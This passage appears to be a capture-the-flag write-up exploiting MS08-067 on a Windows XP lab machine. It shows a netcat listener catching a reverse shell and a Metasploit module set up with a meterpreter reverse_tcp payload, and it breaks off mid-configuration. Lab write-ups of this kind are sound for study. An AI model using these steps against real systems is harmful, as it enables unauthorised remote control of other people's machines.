 We choose option ```6``` because we are running it on ```Windows XP SP3 English (NX)```

After completion of our exploit, we will get our reverse shell on ```netcat listener```

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc -nlvp 443                                 
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.4] 1028
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd
cd
C:\WINDOWS\system32

```

While using ```shell``` on ```Windows XP``` try to remember that we cannot use some useful commands like other Windows OS

### MS08-067 metasploit exploit

Lets try to use ```metasploit``` exploit for ```ms08-067```,

We can just simply run our exploit by configuring our remote and listener IP

```c
msf6 > search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > show options 

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.88     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

```